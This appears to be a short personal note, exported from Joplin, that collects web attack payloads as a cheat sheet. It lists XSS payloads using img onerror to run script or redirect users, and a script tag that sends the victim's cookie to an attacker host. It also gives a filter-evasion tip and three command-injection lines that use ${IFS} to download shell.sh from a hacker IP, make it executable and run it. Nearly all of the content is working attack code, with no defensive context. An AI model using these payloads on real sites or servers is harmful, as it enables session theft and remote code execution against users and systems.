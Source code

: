 ```yaml
---
title: Examples
updated: 2023-10-21 13:11:00Z
created: 2023-09-30 13:28:17Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# Examples

You can send a request to load an image (which doesn't exist) and then run a command on error. For example, to load a prompt:  
`<img src=x onerror = "prompt(1)">`

Or to redirect a user to another URL:  
`<img src=x onerror = "location.href = 'http://www.google.com';">`  
Or:  
`<img src=x onerror = "windows.location.href = 'http://www.google.com';">`

To capture a cookie:  
`<script>new Image().src='http://attacker:port/?cookie=' + encodeURI(document.cookie);</script>`

![](/C:/Users/allie/AppData/Local/Programs/Joplin/resources/app.asar/x)

Use ( **\`** ) instead of ( **'** )

***
`wget${IFS}http://<hackerIP>/shell.sh`
`chmod${IFS}777${IFS}shell.sh`
`bash${IFS}shell.sh`